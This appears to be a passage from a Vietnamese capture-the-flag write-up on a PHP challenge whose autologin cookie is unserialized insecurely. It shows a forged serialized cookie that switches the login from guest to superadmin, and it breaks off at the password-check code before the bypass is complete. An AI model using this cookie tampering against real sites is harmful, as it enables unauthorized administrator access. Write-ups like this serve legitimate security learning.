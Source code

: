 ```php
<?php
}

if(isset($_SESSION['login']) && $_SESSION['login'] !== ""){
    echo "<p><a href='disconnect.php'>Disconnect</a></p>";
}
?>
</body>
</html>
```

Đăng nhập thử với tài khoản guest em nhận được và tích vào ô Autologin next time em sẽ nhận được 1 cookie 

![](https://hackmd.io/_uploads/rkyLfv8E3.png)

Cookie này sẽ lưu tên đăng nhập và mật khẩu (đã được hash) của em.

```
a:2:{s:5:"login";s:5:"guest";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```

### Khai thác

Dựa trên việc cookie được deserialize một cách k an toàn em có thể sửa đổi giá trị của cookie:

Thay đổi giá trị của trường login từ `guest` thành `superadmin`:

```php
<?
...
// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
...
```

```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```

Nhưng như vậy vẫn chưa đủ vì:

```php=
<?
...
 // autologin cookie ?
    else if($_COOKIE['autologin']){
        $data = unserialize($_COOKIE['autologin']);
        $autologin = "autologin";
    }

    // check password !
    if ($data['password'] == $auth[ $data['login'] ] ) {
        $_SESSION['login'] = $data['login'];
        ...
```
